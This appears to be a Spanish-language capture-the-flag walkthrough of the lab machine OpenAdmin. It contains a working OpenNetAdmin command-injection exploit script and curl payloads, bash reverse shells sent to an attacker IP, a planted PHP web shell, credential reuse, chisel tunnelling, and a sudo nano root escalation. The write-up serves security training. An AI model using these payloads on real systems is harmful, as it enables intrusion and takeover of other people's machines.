





# OpenAdmin

`OpenAdmin` es una máquina Linux de dificultad fácil que cuenta con una instancia de CMS OpenNetAdmin obsoleta. El CMS se explota para obtener un punto de apoyo y la enumeración posterior revela credenciales de la base de datos. Estas credenciales se reutilizan para pasar de forma lateral a un usuario con pocos privilegios. Se descubre que este usuario tiene acceso a una aplicación interna restringida. El examen de esta aplicación revela credenciales que se utilizan para pasar de forma lateral a un segundo usuario. Luego se explota una configuración incorrecta de sudo para obtener un shell de root.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance


```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.171 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-07 05:41 CET
Initiating SYN Stealth Scan at 05:41
Scanning 10.10.10.171 [65535 ports]
Discovered open port 22/tcp on 10.10.10.171
Discovered open port 80/tcp on 10.10.10.171
Completed SYN Stealth Scan at 05:42, 29.99s elapsed (65535 total ports)
Nmap scan report for 10.10.10.171
Host is up, received user-set (0.078s latency).
Scanned at 2025-03-07 05:41:34 CET for 30s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 30.10 seconds
           Raw packets sent: 75682 (3.330MB) | Rcvd: 75480 (3.020MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

      [*] IP Address: 10.10.10.171
      [*] Open ports: 22,80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p22,80 10.10.10.171 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-07 05:42 CET
Nmap scan report for 10.10.10.171
Host is up (0.079s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   105.01 ms 10.10.14.1
2   102.84 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.41 seconds
```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>

## Web Enumeration


<figure><figcaption></figcaption></figure>


```bash
❯ gobuster dir -u http://10.10.10.171/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -b 503,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.171/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   503,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]
```




<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>




## Initial Foothold

### OpenNetAdmin v18.1.1 Exploitation - Remote Code Execution

```bash
❯ whatweb -a 3 http://10.10.10.171/ona/
http://10.10.10.171/ona/ [200 OK] Apache[2.4.29], Cookies[ONA_SESSION_ID,ona_context_name], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.171], Script[javascript,text/javascript], Title[OpenNetAdmin :: 0wn Your Network]
```


<figure><figcaption></figcaption></figure>


```bash
❯ searchsploit OpenNetAdmin
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                                | php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                 | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                  | php/webapps/47691.sh
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```


<figure><figcaption></figcaption></figure>


```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```


```bash
❯ curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping"  http://10.10.10.171/ona/
<?xml version="1.0" encoding="utf-8" ?><xjx><cmd n="js"><![CDATA[removeElement('tooltips_results');]]></cmd><cmd n="ce" t="window_container" p="tooltips_results"><![CDATA[div]]></cmd><cmd n="js"><![CDATA[initialize_window('tooltips_results');el('tooltips_results').style.display = 'none';el('tooltips_results').style.visibility = 'hidden';el('tooltips_results').onclick = function(ev) { focus_window(this.id); };]]></cmd><cmd n="as" t="tooltips_results" p="innerHTML"><![CDATA[
        <!-- This wrapper table is so that internal tables can be set to 100% width and they won't stretch the box too wide. -->
        <table id="tooltips_results_table" cellspacing="0" border="0" cellpadding="0">
        <tr>
        <td>

            <!-- Window bar and close button -->
            <table id="tooltips_results_title_table" class="window_title" style="border-bottom: 1px solid #69A6DE;background-color: #69A6DE;" width="100%" cellspacing="0" border="0" cellpadding="0">
            <tr>

                <td id="tooltips_results_title"
                    width="99%"
                    align="left"
                    nowrap="true"
                    onMouseDown="focus_window('tooltips_results'); dragStart(event, 'tooltips_results');"
                    style="cursor: move;
                           white-space: nowrap;
                           font-weight: bold;
                           text-align: left;
                           padding: 2px 4px;">Ping Results</td>

                <td id="tooltips_results_title_r"
                    align="right"
                    nowrap="true"
                    style="color: #294157;
                           white-space: nowrap;
                           text-align: right;
                           padding: 2px 4px;"><span id="tooltips_results_title_help"></span>&nbsp;<a title="Close window" style="cursor: pointer;" onClick="removeElement('tooltips_results');"></a></td>

            </tr>
            </table>
<!-- Module Output -->
<table style="background-color: #F2F2F2; padding-left: 25px; padding-right: 25px;" width="100%" cellspacing="0" border="0" cellpadding="0">
    <tr>
        <td align="left" class="padding">
            <br>
            <div style="border: solid 2px #000000; background-color: #FFFFFF; width: 650px; height: 350px; overflow: auto;resize: both;">
                <pre style="padding: 4px;font-family: monospace;">uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```


```bash
❯ curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;/bin/bash -c 'bash -i >%26 /dev/tcp/10.10.14.2/443 0>%261'&xajaxargs[]=ping"  http://10.10.10.171/ona/
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.171] 46856
bash: cannot set terminal process group (1300): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ 
```




```bash
❯ git clone https://github.com/sec-it/OpenNetAdmin-RCE; cd OpenNetAdmin-RCE
Clonando en 'OpenNetAdmin-RCE'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 10 (delta 2), reused 5 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (10/10), 4.78 KiB | 4.78 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```


```bash
❯ ruby exploit.rb exploit http://10.10.10.171/ona/ '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"'
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.171] 46872
bash: cannot set terminal process group (1300): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@openadmin:/opt/ona/www$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@openadmin:/opt/ona/www$ export TERM=xterm
www-data@openadmin:/opt/ona/www$ export SHELL=bash
www-data@openadmin:/opt/ona/www$ stty rows 46 columns 230
```

## Pivoting as jimmy user

### Information Leakage

```bash
www-data@openadmin:/opt/ona/www/local/config$ ls -l
total 8
-rw-r--r-- 1 www-data www-data  426 Nov 21  2019 database_settings.inc.php
-rw-rw-r-- 1 www-data www-data 1201 Jan  3  2018 motd.txt.example
-rw-r--r-- 1 www-data www-data    0 Nov 21  2019 run_installer
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php 
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

### Trying access on SSH with recently found password

```bash
❯ sshpass -p 'n1nj4W4rri0R!' ssh jimmy@10.10.10.171
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar  7 04:58:48 UTC 2025

  System load:  0.19              Processes:             177
  Usage of /:   31.2% of 7.81GB   Users logged in:       0
  Memory usage: 10%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.


Last login: Thu Jan  2 20:50:03 2020 from 10.10.14.3
jimmy@openadmin:~$ 
```

## Initial Access

### Internal Website found

```bash
jimmy@openadmin:/home$ cat /etc/apache2/sites-enabled/internal.conf 
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

### Port Forwarding with Chisel


```bash
❯ ls -l chisel
.rwxr-xr-x kali kali 8.9 MB Sun Feb 16 03:43:15 2025  chisel
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```bash
jimmy@openadmin:/tmp$ wget 10.10.14.2/chisel; chmod +x chisel
--2025-03-07 05:50:16--  http://10.10.14.2/chisel
Connecting to 10.10.14.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9371800 (8.9M) [application/octet-stream]
Saving to: ‘chisel’

chisel                      100%[==========================================>]   8.94M   666KB/s    in 15s     

2025-03-07 05:50:31 (623 KB/s) - ‘chisel’ saved [9371800/9371800]

jimmy@openadmin:/tmp$ 
```


```bash
❯ ./chisel server --reverse -p 1234;
2025/03/07 06:49:43 server: Reverse tunnelling enabled
2025/03/07 06:49:43 server: Fingerprint QXtg34BSTLW+VL8Zau8gxZzNeq/nc/PIJyDObTACqS8=
2025/03/07 06:49:43 server: Listening on http://0.0.0.0:1234
```


```bash
jimmy@openadmin:/tmp$ ./chisel client 10.10.14.2:1234 R:52846:127.0.0.1:52846
2025/03/07 05:52:03 client: Connecting to ws://10.10.14.2:1234
2025/03/07 05:52:05 client: Connected (Latency 276.304265ms)
```


<figure><figcaption></figcaption></figure>

### Gaining Access via Webshell in a Writable Web Directory

```bash
jimmy@openadmin:/var/www/internal$ ls -la
total 20
drwxrwx--- 2 jimmy internal 4096 Nov 23  2019 .
drwxr-xr-x 4 root  root     4096 Nov 22  2019 ..
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
jimmy@openadmin:/var/www/internal$ echo -e '<?php \n system($_GET["cmd"]); \n ?>' > gzzcoo.php
jimmy@openadmin:/var/www/internal$ cat gzzcoo.php 
<?php 
 system($_GET["cmd"]); 
 ?>
```


```bash
❯ curl -s 'http://127.0.0.1:52846/gzzcoo.php?cmd=id'
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```


```bash
❯ echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.2/443 0>&1"' | jq -sRr @uri
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.2%2F443%200%3E%261%22
❯ curl -s 'http://127.0.0.1:52846/gzzcoo.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.2%2F443%200%3E%261%22'
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.171] 47666
bash: cannot set terminal process group (1300): Inappropriate ioctl for device
bash: no job control in this shell
joanna@openadmin:/var/www/internal$ whoami
joanna
joanna@openadmin:/var/www/internal$ cat /home/joanna/user.txt 
7bd98aee5d982320703e6c095a5d11b7
```


```bash
oanna@openadmin:/var/www/internal$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
joanna@openadmin:/var/www/internal$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
joanna@openadmin:/var/www/internal$ export TERM=xterm
joanna@openadmin:/var/www/internal$ export SHELL=bash
joanna@openadmin:/var/www/internal$ stty rows 46 columns 230
```


## Privilege Escalation

### Abusing Sudoers Privilege (nano)


```bash
joanna@openadmin:/var/www/internal$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: error initializing audit plugin sudoers_audit
```


```bash
❯ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): 
Enter passphrase for "/home/kali/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_ed25519
Your public key has been saved in /home/kali/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:3MgDLLifHsarN8CwqLu/oV1aNKmquqjHOVazTbHYf+M kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|                 |
|   . .           |
|  . . o          |
|.  . o.+ o       |
|.+. +o oS .      |
|o o=+o+  .       |
|..o+O= .         |
|o+*B+o. . o      |
|#B*=o.   oE.     |
+----[SHA256]-----+
❯ cat /home/kali/.ssh/id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB30SsUFMFi9+gBGbURaDWPr6LcsZ7seEWZgAtRqGLv9 kali@kali
```


```bash
joanna@openadmin:/var/www/internal$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB30SsUFMFi9+gBGbURaDWPr6LcsZ7seEWZgAtRqGLv9 kali@kali' > /home/joanna/.ssh/authorized_keys
joanna@openadmin:/var/www/internal$ cat /home/joanna/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB30SsUFMFi9+gBGbURaDWPr6LcsZ7seEWZgAtRqGLv9 kali@kali
```


```bash
❯ ssh joanna@10.10.10.171
The authenticity of host '10.10.10.171 (10.10.10.171)' can't be established.
ED25519 key fingerprint is SHA256:wrS/uECrHJqacx68XwnuvI9W+bbKl+rKdSh799gacqo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.171' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar  7 06:00:55 UTC 2025

  System load:  0.0               Processes:             186
  Usage of /:   31.4% of 7.81GB   Users logged in:       1
  Memory usage: 11%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ export TERM=xterm
```


```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```


```bash
❯ searchbins -b nano -f sudo

[+] Binary: nano

================================================================================
[*] Function: sudo -> [https://gtfobins.github.io/gtfobins/nano/#sudo]

	| sudo nano
	| ^R^X
	| reset; sh 1>&0 2>&0
```


```bash
joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

<figure><figcaption></figcaption></figure>

```bash
  GNU nano 2.9.3                                                                                                 /opt/priv                                                                                                            


                                                                                                        [ Read 0 lines ]
^G Get Help      ^O Write Out     ^W Where Is      ^K Cut Text      ^J Justify       ^C Cur Pos       M-U Undo         M-A Mark Text    M-] To Bracket   M-▲ Previous     ^B Back          ^◀ Prev Word     ^A Home
^X Exit          ^R Read File     ^\ Replace       ^U Uncut Text    ^T To Spell      ^_ Go To Line    M-E Redo         M-6 Copy Text    M-W WhereIs Next M-▼ Next         ^F Forward       ^▶ Next Word     ^E End
```


<figure><figcaption></figcaption></figure>

```bash
  GNU nano 2.9.3                                                                                                 /opt/priv                                                                                                            


File to insert [from ./]:                                                                                                                                                                                                             
^G Get Help                                                                 ^X Execute Command                                                          ^T To Files
^C Cancel                                                                   M-F New Buffer
```


```bash
Command to execute: reset; sh 1>&0 2>&0                                                                                                                                                                                               
^G Get Help                                                                                                        ^X Read File
^C Cancel                                                                                                          M-F New Buffer
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```bash
# whoami
root
# /bin/bash   
root@openadmin:/home/joanna# cat /root/root.txt 
9452b53517afa9e132e5e6016465c4a1
```
